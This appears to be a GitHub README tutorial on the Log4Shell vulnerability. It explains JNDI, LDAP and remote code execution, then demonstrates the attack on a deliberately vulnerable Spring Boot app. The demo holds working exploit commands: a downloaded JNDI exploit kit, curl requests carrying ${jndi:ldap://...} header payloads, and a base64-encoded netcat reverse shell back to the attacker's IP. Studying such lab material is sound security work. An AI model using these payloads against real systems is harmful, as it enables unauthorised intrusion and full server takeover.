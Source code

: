 # Log4shell

## Introduction

- Accessing the host server through log4j vulnerability and exploiting it with malicious code on the host server.

- Since this exploit is done through the log4j it was named commonly as Log4shell.

- Log4shell is similar to the *SQL injection* in which attacker enters sql string into the request parameters and making it execute  on the host server whereas in *log4shell* hacker enters his directory service url like ldap server making the host application connect to the attacker server using jndi lookup and gets the malicious code execute on the host server which is returned to host application in the form of stream object.
$~$

  ![Alt Text](log4shell.gif)

## Log4j Vulnerability

- Log4j is the widely used logging library for all java enterprise applications either referenced directly or indirectly in the applications.

- In 2013, Log4j has introduced a new feature which evaluates Expression language which is in format ${code/variable}.

- For example if we want to print the environment variable then syntax of the logger will be,
   ```log.info("java version is {}", ${java.version});```

- The above expression ${java.version} looks the system level environemnt variables which are set at server level and access the variable and put the value in the logger file.

- This is where the exploit is happening and attackers access the host server access without authorization.
  
## JNDI

- JNDI is *Java Naming & Directory Interface*.

- JNDI provides consistent use of naming and/or directory services as a Java API.

- Most commonly used directory protocols are,
  - LDAP
  - RMI
  - DNS
  - NIS

- Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation.
<br/>

  ![Alt Text](What-is-JNDI-in-Java.png)

## LDAP 

- LDAP (Light Weight Directory Access Protocol) is a software protocol for enabling anyone to locate data about organizations, individuals and other resources such as files and devices in a network -- whether on the public Internet or on a corporate Intranet.



  ![Alt Text](how-ldap-works.png)

- This is mostly used while authenticating a users when logging in to a applications since it is not a heavyweight protocol like http and takes less time and also reduces the costly DB hits.

- Also, it is very easy to manage users and their roles since constraints can be added at organization or group level which is easy to maintain and manage users when a new rule is introduced or old rule is depricated/removed.


## RCE

- RCE is Remote Code Execution which clearly explains of executing a malicious code on the remote server (host server) without even having access to the server.

  ![Alt Text](RCE.png)

- Attacker enters malicious code in the form of a request parameter fed to the website and then making the application run the code on the host server and perform whatever attacker wants to do on the host server without having authorized access.

## Demo:

#### Prerequisites:

- [x] *Download LDAP server*:
  ```wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar```
  ![Alt Text](download_ldap.png)
- [x] *Run LDAP server*:
  - Move to the jar location and run the server using below command.
    `java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "calc.exe" -L <your private ip>:1389`
  <br/>

  ![Alt Text](run_ldap.png)
  > *_NOTE:_*  Use **hostname -I | awk '{print $1}'** to ge the private IP.
 - [x] *Create a spring boot application using log4j2 dependence with version less than 2.15* 
   - Open any Java IDE (Eclipse or SpringToolSuite) 
<br/>
   
    ![create Spring boot app](http://g.recordit.co/UJqn2R3YVo.gif)
<br/>
    -  Replace pom.xml with below file & copy below LogController src/main/java a
      [pom](pom.xml)
      [LogController](LogController.java)
     - Add below lines in default file created under src/main/java --> *Application.java in main method. 
      `System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
		System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");`
    - Install [kali-linux](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) and execute below command to install docker for executing app in docker container.
    `sudo apt install docker.io`
----  

I will cover 3 scenarios where the malicious code will execute different outputs on the host system/server.
  1. Open ==calculator== on windows system by executing vulnerable java application on local system.
       - Run the spring boot application as below.
    ![run app](http://g.recordit.co/AW98phqr4i.gif) 
       - Use curl to send request to host server with malicious code.
    `curl <your IP>:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/Y2FsYy5leGU=}'` 
    <br/>
    ![check calc](http://g.recordit.co/I5a0PeQpkf.gif) 
  2. Creating a ==txt file== inside server after hosting application on docker container.
    - Host the same application in docker using below commands.
    `docker pull vamsi13krish/vulnerable-app:latest`
    `docker run -d --name vulnerable-app -p 8080:8080 vamsi13krish/vulnerable-app`
    ` curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_unix/dG91Y2ggL3RtcC9wd25lZC50eHQK}'`
   - Check the docker container for pwned.txt file in /tmp folder using below command
    `docker exec -it <container ID> ls /tmp`
  >*_NOTE_*: Use **docker ps** to get container ID 

  ![file creation gif](http://g.recordit.co/Bn8ImBR7wn.gif)
  3. Getting complete access to the host server using ==netcat== command that will be passed in malicious code on to host server using log4j vulnerability.
  - Use below command to convert the required netcat command to base64 encoded string.
    `echo "nc 172.26.9.117 9999 -e /bin/sh" | base64`
  - Copy the base64 string and paste after exec_global/ in below command
    `${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}`
  - Now open other terminal and run below command to listen to the port 9999.
    `nc -nvlp 9999`
  - Run below Curl command and check the listening terminal again
    `curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}'`  
  ![Boom](http://g.recordit.co/xrvaibjQcF.gif)

